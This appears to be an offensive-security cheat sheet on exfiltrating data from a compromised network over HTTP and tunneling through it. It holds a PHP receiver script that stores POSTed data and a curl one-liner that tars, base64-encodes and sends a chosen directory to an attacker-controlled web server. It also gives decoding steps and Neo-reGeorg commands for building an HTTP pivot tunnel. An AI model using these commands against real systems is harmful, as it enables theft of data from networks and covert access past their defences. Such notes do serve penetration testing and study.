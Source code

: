 # Data Exfiltration Over HTTP and HTTPS

Real world scenario is that an attacker controls a cloud web server an agent or command is then executed from inside the network with a compromised machine to send the data to the webserver that is outside the compromised network. Then the attacker can just log in to a web server to get the data.

## HTTP

**HTTP Data Exfiltration will all be in plaintext and therefore not secure. If you use HTTPS it will be encrypted**

1.  An attacker create a page to be a data handler on the web server.
2.  A C2 agent or an attacker sends the data. 
3.  The webserver receives and stores the data.
4.  Login to webserver and get the data.

#### PHP version:#
bad.php contains:
```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

Then from the machine containing the data to be exfiltrated

```bash
curl --data "file=$(tar zcf - <directory> | base64)" http://webserver/bad.php
```

From the webserver

```bash
sed -i 's/ /+/g' /tmp/http.bs64
cat /tmp/http.bs64 | base64 -d | tar xvfz -
```

## Tunneling

[neo-regeorg](https://github.com/L-codes/Neo-reGeorg) is the improve regeorg a tool for HTTP tunnel pivoting previously written in python 2.7.
```bash
# Generates encrypted Tunneling clients
# key is in the neoreg_servers/
/opt/Neo-reGeorg: python3 neoreg.py generate -k <key> 
# upload one of the compatible clients to webserver
# create tunnel
/opt/Neo-reGeorg: python3 neoreg.py -k <key -u http://url/path/to/tunnel.php
 curl --socks5 127.0.0.1:1080 http://inaccessible-without-tunnel
```

## Notes
The 'Black Hat Python Ed.2' book contains a API exfiltration script to pastebin from a Windows Machine


## References